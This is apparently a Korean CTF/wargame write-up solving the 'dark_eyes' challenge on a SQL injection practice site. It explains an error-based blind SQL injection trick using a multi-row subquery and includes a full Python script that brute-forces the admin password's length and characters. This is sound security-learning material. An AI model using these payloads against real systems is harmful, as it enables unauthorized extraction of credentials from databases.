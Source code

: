 ![image](https://user-images.githubusercontent.com/33647663/158279394-a3272919-5749-420b-9959-e11db09e2091.png)

이를 이용해서 참 일때 오류를 발생시키고, 거짓일 때는 오류를 발생시키지 않는 방법을 통해서 참/거짓을 판단하는 방법을 이용합니다.

제가 이용한 방법은 sql에서의 서브쿼리를 이용해서, 오류를 발생시키는 방법입니다. 아래의 예시 쿼리를 보면 where 조건절에서 id=(서브쿼리) 형태로 쿼리를 하고 있습니다. 이때, 서브쿼리에서 리턴되는 행이 하나이면, 오류가 발생하지 않지만, 한 개 이상의 행이 리턴되면 에러가 발생하는 것을 볼 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/158279800-5b707457-25bc-4471-8409-bed8e3bf7327.png)

이를 이용해서 다음과 같이 참/거짓을 판단합니다.

```sql
select id from prob_dark where id=(select 1 union select 2 where [조건 식])
```

![image](https://user-images.githubusercontent.com/33647663/158280189-d0a8449b-6ec9-4243-a946-f68c6c99aa2e.png)

**위의 [조건식] 부분에서 조건이 참이 된다면, 행이 추가로 반환되어 오류가 발생하고, 조건이 거짓이 된다면 행이 반환되지 않아서 오류가 발생하지 않습니다.!**

이를 이용해서 blind sql injection을 수행합니다.

```python
import requests
import string

url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
params={'pw': None}
cookies = {'PHPSESSID' : '1t87momi7f10m7tl6kkv6t0lob'}

# 비밀번호 길이 알아내기
for i in range(30):
    payload = "' or id=(select 1 union select 2 where id='admin' and length(pw)={})#".format(i)
    params['pw'] = payload
    print(payload)
    response = requests.get(url,params=params,cookies=cookies)
    if(len(response.text)<5):
        print("find the pw_length",i)
        break

# 비밀번호 길이 8

# 비밀번호 찾기
flag= ''
for i in range(1,9):
    for j in string.printable:
        payload = "' or id=(select 1 union select 2 where id='admin' and ascii(substr(pw,{},1))={})#".format(i,ord(j))
        params['pw'] = payload
        print(payload)
        response = requests.get(url,params=params,cookies=cookies)
        if(len(response.text)<5):
            flag +=j
            print("find the flag",flag)
            break
```

실행 결과는 다음과 같이 나옵니다.

![image](https://user-images.githubusercontent.com/33647663/158281261-ce31ed9e-8def-4946-96be-32ee29fbe327.png)

![image](https://user-images.githubusercontent.com/33647663/158281288-65132a20-00ab-47e9-9abc-d64cad2a0780.png)